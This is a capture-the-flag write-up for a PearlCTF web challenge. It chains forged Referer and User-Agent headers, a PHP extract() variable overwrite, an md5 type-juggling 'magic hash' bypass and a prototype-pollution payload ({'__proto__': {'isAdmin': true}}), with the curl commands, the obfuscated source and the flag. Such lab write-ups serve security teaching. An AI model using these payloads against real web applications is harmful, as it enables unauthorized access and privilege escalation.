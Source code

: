 # steps to success
## Solution
we are given `.htaccess` file in the source, looking at it, we get to know that the request must contain referer as localhost and user-agent as B3gul4.

```
RewriteEngine On
RewriteCond %{HTTP_REFERER} !.*localhost [NC]
RewriteRule ^ https://www.youtube.com/watch?v=zqLEO5tIuYs [R=301,L]

RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} !=B3gul4 [NC]
RewriteRule ^ https://www.youtube.com/watch?v=zqLEO5tIuYs [R=301,L]
```

```
curl -H "referer: localhost" -H "user-agent: B3gul4" https://steps-to-success.ctf.pearlctf.in
ROBOTS ARE COOL
```

heading to `robots.txt` we find

```
User-agent: *

Disallow: /gr34t_/page.php
```

we get the followinf code at `/gr34t_/page.php` endpoint

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.9.0/styles/default.min.css">
    <title>AWESOME_PHP</title>
</head>
<body>
    <div>
        <pre><code><span>&lt</span>?php
    $password = "REDACTED";
    extract($_GET); // get request to "input" arg
    if ($input == $password) {
        if ($input != "PearlCTF_15345384" && md5($input) == md5("PearlCTF_15345384")) {
            echo "SECRET";
        } else {
            echo "md5 didn't match";
        }
    } else {
        echo "Wrong password!";
    }
?></code></pre>
    </div>
    <div style="background-color: #baffc0;">
        Wrong password!
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.9.0/highlight.min.js"></script>
    <script>hljs.highlightAll();</script>
</body>
</html>
```

We can see that our input is validated against a password, later the md5 of our input is validated against the md5 of `PearlCTF_15345384`, we can bypass the password check since `extract` is used to create a variable with our input as value, we can overwrite the password variable if we also pass password in get parameters. The md5 bypass is `php typejuggling`.

```
curl -H "referer: localhost" -H "user-agent: B3gul4" https://steps-to-success.ctf.pearlctf.in/gr34t_/page.php\?password\=QNKCDZO\&input\=QNKCDZO
```

this will tell us to head to `/u_c4nt_gu355_th1s`, we find that GET method is not allowed at this endpoint, on making a POST request we get JSON decode error, after seeing the source, we find that there are two snippets that were obfuscated, we just need to run the `main.js` with node and print the snippets.

```js
(o,e)=>{let f=Object.keys(e);for(key of f)void 0!=o[key]&&isObject(o[key])&&isObject(e[key])?func1(o[key],e[key]):o[key]=e[key]};
```
```js
const userObj=JSON.parse(req.body.obj);let template={user:1,role:"staff",access:{server:"none",database:"partial"},organisation:"pearl.in"};Object.setPrototypeOf(template,{}),userObj.isAdmin?result="You cannot do that here!":(func1(template,userObj),template.isAdmin&&(result=FLAG));
```

we see that our request must be of form `obj=<json>` at the endpoint and this `obj` is recursively merged with a predefined template. Later the merged object is checked for `isAdmin` key.

If we send `{"isAdmin": true}` as our `obj`, we can see that there is a check that doesn't allow this, so we need to have field `isAdmin` without it being there.

We can clearly see that this is to be done by prototype pollution.

so we send `{"__proto__": {"isAdmin": true}}`, the final payload is

```
curl -X POST https://steps-to-success.ctf.pearlctf.in/u_c4nt_gu355_th1s -d 'obj={"__proto__": {"isAdmin": true}}'
```

## Flag
`pearl{7hr0ugh_7H3_SeA_Thr0ugh_the_Space_V0yag3_com35_to_EnD!}`
